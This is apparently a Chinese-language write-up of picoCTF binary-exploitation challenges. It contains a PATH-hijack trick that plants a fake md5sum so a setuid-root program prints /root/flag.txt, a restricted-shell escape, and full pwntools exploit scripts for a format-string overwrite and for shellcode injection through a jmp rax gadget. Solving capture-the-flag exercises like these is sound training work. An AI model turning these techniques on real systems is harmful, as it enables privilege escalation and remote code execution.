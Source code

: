 ```yaml
---
title: picoCTF PWN WP
date: '2025-03-11 17:56:24'
updated: '2025-04-07 21:33:52'
---
```

## PIE
直接 nc 上去利用二进制文件里面的偏移算出来 print_flag 函数的地址输入就可以获得 flag

## PIE2
多了个格式化字符串利用，最好直接泄露到栈上的返回地址，如果直接`%p`泄露前面几个寄存器的值，远程可能不一定正确

## hash-only-1
好抽象的题目，C++程序比较简单勉强看懂了，程序直接用bash把flag.txt传给`md5num`加密了之后打印出来就结束了，程序无从下手，后面看协作文档压根想不到是改`md5num`来把flag打印出来

### 协作文档
不像是pwn，已经给了shell，但权限不够，flag位于 /root/flag.txt ,但没有权限进root目录，运行二进制程序只能拿到md5的值，而且这个二进制程序没有交互，似乎也没有漏洞？

```c
bool main(void)

{
  ostream *poVar1;
  char *__command;
  long in_FS_OFFSET;
  bool bVar2;
  allocator local_4d;
  int local_4c;
  string local_48 [40];
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  poVar1 = std::operator<<((ostream *)std::cout,"Computing the MD5 hash of /root/flag.txt.... ");
  poVar1 = (ostream *)std::ostream::operator<<(poVar1,std::endl<>);
  std::ostream::operator<<(poVar1,std::endl<>);
  sleep(2);
  std::allocator<char>::allocator();
                    /* try { // try from 001013aa to 001013ae has its CatchHandler @ 0010144f */
  std::string::string(local_48,"/bin/bash -c \'md5sum /root/flag.txt\'",&local_4d);
  std::allocator<char>::~allocator((allocator<char> *)&local_4d);
  setgid(0);
  setuid(0);
  __command = (char *)std::string::c_str();
                    /* try { // try from 001013de to 00101423 has its CatchHandler @ 0010146d */
  local_4c = system(__command);
  bVar2 = local_4c != 0;
  if (bVar2) {
    poVar1 = std::operator<<((ostream *)std::cerr,"Error: system() call returned non-zero value: ");
    poVar1 = (ostream *)std::ostream::operator<<(poVar1,local_4c);
    std::ostream::operator<<(poVar1,std::endl<>);
  }
  std::string::~string(local_48);
  if (local_20 == *(long *)(in_FS_OFFSET + 0x28)) {
    return bVar2;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

`md5sum` 是直接从PATH拿到的，直接整个假的 `md5sum` 就行

```plain
echo '#!/bin/sh' >> md5sum
echo 'cat $@' >> md5sum
chmod +x md5sum
PATH=".:$PATH" ./flaghasher
```

## hash-only-2
题目直接没给二进制文件，这真的算 pwn 题吗？

### 协作文档
同hash-only-1

但进入的是rbash，启动bash即可解决所有限制

剩下的没有区别

## Echo Valley
程序一直循环有 printf，可以多次输入获得栈上的栈地址和程序地址

然后再利用 fmtstr_payload 格式化字符串任意地址写

把返回地址改成 print_flag 的地址

```python
#!/usr/bin/env python3

from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'

link=remote("shape-facility.picoctf.net",53062)
# link=process("./valley")

link.recvuntil(b'Shouting: \n')
link.sendline(b'%20$p')

link.recvuntil(b'distance: ')
rbpaddr=int(link.recvline()[:14],16)
print(hex(rbpaddr))
retaddr_ptr=rbpaddr-0x8
print(hex(retaddr_ptr))

link.sendline(b'%21$p')

link.recvuntil(b'distance: ')
binarybase=int(link.recvline()[:14],16)-0x1413
print(hex(binarybase))
print_flag=binarybase+0x126e
print(hex(print_flag))

# gdb.attach(link,'b *$rebase(0x13e1)')
# pause()

payload = fmtstr_payload(6, {retaddr_ptr:print_flag},0,write_size="short")
link.sendline(payload)

link.sendline(b'exit')

link.interactive()
```

## Handoff
![](/images/c4d1289e3fe91596f71f118d086eebd8.png)

栈可执行，程序退出前有一次栈溢出，可以多次往栈上输入数据，

动调发现可以利用 rax 寄存器中遗留的栈地址，

而最后那次有栈溢出的输入地址就是 rax 的地址

程序当中还有`jmp rax`的 gadget 可以利用，大体思路：

+ 先覆盖返回地址到`jmp rax`，
+ 然后再跳转到 payload 开头（也就是 rax 的地址）的十几个字节的指令，
+ 最后再跳转到之前程序输入的时候布置在栈上面的 shellcode

刚开始写的跳转指令是：

```python
jmp_shellcode=asm('''
    sub rax,0x284;
    jmp rax;
''')
```

结果动调发现执行到后面`jmp rax`指令被改动了，看了看原来是程序返回前还在字符串末尾加上了 0，原本紧挨着 rbp 的 jmp_shellcode 就被覆盖了一部分

![](/images/5f0461357d873b7d0c47f1e81b8b1fdf.png)

看来要用短一点的跳转指令才行，突然想到刚才就是通过 ROP 执行的`jmp rax`，直接把跳转指令里面`jmp rax`换成`ret`，再在 ROP 链结尾再加个`jmp rax`，

这样跳转指令的部分就变短了，不会被覆盖

最终 exp：

```python
#!/usr/bin/env python3

from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'

link=remote("shape-facility.picoctf.net",62438)
# link=process("./handoff")

link.recvuntil(b'app')
link.sendline(b'1')
link.recvuntil(b'name:')
link.sendline(b'1')
link.recvuntil(b'app')
link.sendline(b'1')
link.recvuntil(b'name:')
link.sendline(b'1')

link.recvuntil(b'app')
link.sendline(b'2')
link.recvuntil(b'message to?')
link.sendline(b'1')
link.recvuntil(b'send them?')
link.sendline(asm(shellcraft.sh()))

distance=-0x284
jmp_shellcode=asm('''
    sub rax,0x284;
    ret;
''')
jmp_rax=0x4011AE

link.recvuntil(b'app')
link.sendline(b'3')
payload=jmp_shellcode.ljust(0x14,b'a')+p64(jmp_rax)+p64(jmp_rax)

# gdb.attach(link,'b *0x4013ED')
# pause()

link.recvuntil(b'appreciate it:')
link.sendline(payload)

# gdb.attach(link)
# pause()

link.interactive()
```

